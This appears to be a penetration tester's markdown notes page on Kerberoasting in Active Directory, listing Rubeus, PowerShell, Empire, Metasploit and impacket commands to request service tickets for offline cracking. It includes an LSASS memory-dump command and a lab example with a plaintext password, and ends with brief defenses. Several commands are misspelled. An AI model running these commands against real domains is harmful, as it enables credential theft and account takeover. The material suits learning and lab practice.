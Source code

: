  >"MS SQL, the Service Principal Name (SPN) is used in the domain to associate the service with a login account. When a user wishes to use the specific resource they receive a Kerberos ticket signed with NTLM hash of the account that is running the service"

Kerbroasting is technique in which you bruteforce encrypted NTLM hashes. which you can dump in multiple ways listed in workflow3
**Kerbroasting:**

![[Pasted image 20220517175401.png]]

***New Kerbroasting method on Host System***

Most of the time you will need an active account on the domain in order to initial Kerberoast, but if the DC is configured with [UserAccountControl setting “Do not require Kerberos preauthentication” enabled](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/), it is possible to request and receive a ticket to crack without a valid account on the domain.

- Rubeus.exe
	`Rubeus.exe kerberoast /outfile:hash.txt`
- ps1 Powershell Script
	`Import-Module .\Invoke-Kerbroast.ps1`
	`Invoke-Kerbroast.ps1`

***New Kerbroasting method on Remote System***
- Powershell Empire
	`usermodule credentials/invoke_kerberoast`
	`execute`
- Impacket
- Metasploit
	`powershell_import /root/powershell/Invoke-kerberost.ps1`
	`powershell_execute Invoke-Kerberost`
- Pypykatz from powershell
	`load powershell`
	`powershell_shell`
	`Get-Process Lsass`
	`cd C:\Windows\System32`
	`.\rundll32.exe comsvcs.sll, MiniDump 628 C:\lsass.DMP full`

- ***If you have normal user account and want to get the hash of  other users associated with that account then***
	- Requirement: Normal username and password (***Kerberosting***)
```bash
# List the username associated with normal user account
GetUserSPNs.py -request -dc-ip [IP] [domain]/[normal_user] -save -outfile userlist
impacket-GetUserSPNs 'vulnnet-rst.local/t-skid:tj072889*' -outputfile hashes -dc-ip 10.10.50.95
# Example
# GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs -save -outfile userlist

```

## References
https://wadcoms.github.io/wadcoms/Impacket-GetUserSPNs/


#### Defense
- Strong passwords
- Least Privilege